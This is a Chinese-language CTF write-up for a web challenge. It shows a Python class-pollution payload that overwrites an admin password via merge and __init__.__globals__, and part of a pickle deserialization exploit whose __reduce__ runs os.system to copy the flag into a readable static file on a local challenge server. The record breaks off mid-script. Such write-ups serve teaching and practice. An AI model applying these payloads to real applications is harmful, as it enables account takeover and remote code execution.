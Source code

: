 难度：困难

### python原型链污染

原理请参考ttt社区：https://tttang.com/archive/1876/

可以调试一下merge函数，在`__init__.__globals__`下可以获得`admin`对象

那么可以污染到变量信息，我们可以修改admin的密码

    payload = {
        "username": new_username,
        "password": new_password,
        "__init__": {
            "__globals__": {
                "admin": {
                    "password": admin_password
                }
            }
        }
    }



### pickle反序列化

漏洞利用点在Show函数中的pickle.loads，这是一个很危险的地方

而且pickle反序列化的前提时我们能够重写类，所以红框上一行的loads就用不了了

![image-20240411174112111](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202404111746961.png)

~~由于学校防火墙以及网络配置等问题，反弹shell操作基本不可能，再说大多数同学应该没有vps吧~~

所以RCE的结果怎么给外带呢？

注意到有个static文件夹，这里的文件是可读可下载的，那么我们在`__reduce__`里可以将flag写入到static中的文件，然后下载即可获得flag

![image-20240411174515840](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202404111746405.png)

![image-20240411174639676](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202404111746037.png)

### 完整EXP

``` python
import base64
import os
import pickle
import argparse
import requests
import time

# the attack url
baseURL = "http://127.0.0.1:40825"

s = requests.session()



# rewrite the user class
class Message:

    def __init__(self, _message, _status):
        self.message = _message
        self.status = _status

    def __reduce__(self):
        return (os.system, ('cat /flag > /app/static/img.png',))
```